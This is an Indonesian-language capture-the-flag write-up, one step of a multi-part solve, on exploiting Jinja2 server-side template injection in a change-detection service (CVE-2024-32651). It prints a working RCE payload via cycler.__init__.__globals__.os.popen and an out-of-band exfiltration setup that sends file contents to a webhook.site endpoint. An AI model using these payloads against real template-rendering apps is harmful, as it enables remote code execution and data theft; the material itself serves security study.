

# ChangeTrack — Analisis

[← Overview](48-changetrack.md) · [Index](index.md)

> **Langkah 3/9 — Analisis.** Uji paling aman: ganti template menjadi:
>
> **Titik penting:** https://api.github.com/events · curl -sS -X POST https://webhook.site/token \ · NFX{ch4ng3_d3t3ct10n_j1nj4_sst1_oob_cve_2024_32651_2026}
>
> **Berikutnya:** [Analisis](48-changetrack-04-analisis-3.md)

## 2.3 Jinja2 SSTI

Uji paling aman: ganti template menjadi:

```yaml
    TEMPLATE_MARKER_49 = {{ 7*7 }}
```

Simpan manifest dan dispatch. Webhook menerima:

```text
HELLO_WEBHOOK_SITE 49
target=https://api.github.com/events
```

`{{ 7*7 }}` dievaluasi menjadi `49` → **SSTI confirmed**.

Payload RCE:

```jinja2
{{ cycler.__init__.__globals__.os.popen('id; cat /flag.txt').read() }}
```

`cycler` adalah objek Jinja2 global; `__init__.__globals__` memberi akses ke modul `os`, lalu `popen(...).read()` mengeksekusi shell. Karena template dirender tanpa `SandboxedEnvironment`, payload ini berhasil.

## 2.4 OOB exfiltration

Karena response `/test` hanya `302` dan tidak menampilkan body notifikasi, hasil perintah harus dikirim keluar. Kami membuat token webhook.site:

```bash
curl -sS -X POST https://webhook.site/token \
  -H 'Content-Type: application/json' -d '{}'
# {"uuid":"8509b71c-b1c7-4a12-baf7-26428e5b36a1", ...}
```

Manifest diubah:

```yaml
notification:
  webhook_url: https://webhook.site/8509b71c-b1c7-4a12-baf7-26428e5b36a1
  format: yaml
  template: |
    FLAG1
    {{ cycler.__init__.__globals__.os.popen('cat /flag.txt').read() }}
```

Setelah `POST /watchers/watch-01/test`, webhook.site menerima:

```json
{
  "uuid": "25852c30-ba6f-464b-9ce6-4b2596fdbd33",
  "created_at": "2026-11-08 01:26:06",
  "ip": "116.212.75.209",
  "method": "POST",
  "url": "https://webhook.site/8509b71c-b1c7-4a12-baf7-26428e5b36a1",
  "content": "FLAG1\nNFX{ch4ng3_d3t3ct10n_j1nj4_sst1_oob_cve_2024_32651_2026}\n"
}
```

IP `116.212.75.209` (Indonesia) dan `User-Agent: python-requests/2.34.2` menunjukkan request berasal dari worker challenge, bukan dari mesin kami.

### Evidence langkah ini



*Terminal evidence — `14-flag-capture.txt` (arsip transkrip sesi solve).*

**Berkas mentah langkah ini:**

- [`14-flag-capture.txt`](assets/changetrack/14-flag-capture.txt)
